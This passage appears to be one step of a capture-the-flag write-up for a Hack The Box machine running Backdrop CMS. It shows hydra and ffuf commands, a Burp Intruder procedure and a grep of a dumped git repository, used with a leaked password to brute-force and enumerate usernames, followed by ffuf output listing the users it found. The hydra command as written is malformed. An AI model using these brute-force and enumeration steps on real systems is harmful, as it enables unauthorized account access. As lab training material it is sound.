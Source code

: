Step 5: Finding the admin user of Backdrop CMS 

```bash
hydra -L /home/kali/Desktop/Main/rockyou.txt
-p 'BackDropJ2024DS2024' #password we found earlier 
-V #Verbose - show all tries
-u dog.htb #url
http-post-form #type of attack , we chanhe the pose request each time with the credintials
"/?q=user/login:name=^USER^&pass=BackDropJ2024DS2024&form_id=user_login&op=Log+in:Sorry, unrecognized username."
# is response is diffrent from this respone (response for wrong username and password) then print the USERNAME 

#HINT TOLD US TO CHECK ?q=accounts/
#We understand that when we insert valid user the output will change
#Lets try to brute force USERNAME using ffuf
ffuf -u http://10.129.185.168/\?q=accounts/FUZZ -w /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -v
#check output of fuzz command below
#we got the users: john,tiffany, morris, axel
#lets try to connect via ?q=username/login for every user & password we found in earlier question

```
```another aproach```

i used to main approches to find the user name: using burpuite for bruteforce & using grep the same way i found the password earlier

```burp aproach```
1. go to the login page located at : http://10.129.231.223/?q=user/login
2. try random user and use the password *~BackDropJ2024DS2024~*
3. cupture the POST request via burp and send it to intruder
4. use the *`/usr/share/wordlists/SecLists/Usernames/Names/names.txt`*
5. run the attack and filter by size --> the unusuall size is the answer 
 
```grep aproach```
1. used the command below to locate mail releted to HTB

`grep -iRE ".*@.*htb" /home/kali/HTB/DOG/GitTools/Dumper/GIT_OUTPUT/`
inside 

i found the mail: "tiffany@dog.htb"
2. lets try to find more users-->
`grep -iRE ".*@dog.htb" /home/kali/HTB/DOG/GitTools/Dumper/GIT_OUTPUT/`

found another user --> `dog@dog.htb`
```
```
we get valid response :
[Status: 403, Size: 7635, Words: 643, Lines: 114, Duration: 584ms]
| URL | http://10.129.185.168/?q=accounts/john
    * FUZZ: john

[Status: 403, Size: 7635, Words: 643, Lines: 114, Duration: 98ms]
| URL | http://10.129.185.168/?q=accounts/tiffany
    * FUZZ: tiffany

[Status: 403, Size: 7635, Words: 643, Lines: 114, Duration: 132ms]
| URL | http://10.129.185.168/?q=accounts/morris
    * FUZZ: morris

[Status: 403, Size: 7635, Words: 643, Lines: 114, Duration: 281ms]
| URL | http://10.129.185.168/?q=accounts/axel
    * FUZZ: axel

```